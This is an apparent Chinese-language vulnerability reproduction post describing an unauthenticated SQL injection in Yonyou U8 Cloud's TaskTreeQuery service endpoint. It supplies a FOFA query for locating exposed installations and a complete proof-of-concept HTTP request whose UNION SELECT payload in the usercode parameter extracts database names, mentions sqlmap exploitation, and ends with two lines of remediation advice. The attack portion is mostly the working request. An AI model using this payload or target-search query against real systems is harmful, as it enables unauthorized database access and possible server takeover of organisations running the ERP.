



# 用友U8 Cloud TaskTreeQuery SQL注入漏洞复现

### 0x01 产品简介

  用友U8 Cloud是用友推出的新一代云ERP，主要聚焦成长型、创新型企业，提供企业级云ERP整体解决方案。

### 0x02 漏洞概述

 用友U8 Cloud /service/~iufo/nc.itf.iufo.mobilereport.task.TaskTreeQuery接口处存在SQL注入漏洞，未授权的攻击者可以通过此漏洞获取数据库权限，进一步利用可导致服务器失陷。

### 0x03 复现环境

FOFA：app="用友-U8-Cloud"



### 0x04 漏洞复现

PoC

```vbnet
GET /service/~iufo/nc.itf.iufo.mobilereport.task.TaskTreeQuery?usercode=1'+UNION+all+SELECT+1,db_name(),3,4,5,6,7,8,9+from+master..sysdatabases--  HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

查询数据库名称



SQLmap利用

### 0x05 修复建议

关闭互联网暴露面或接口设置访问权限

升级至安全版本
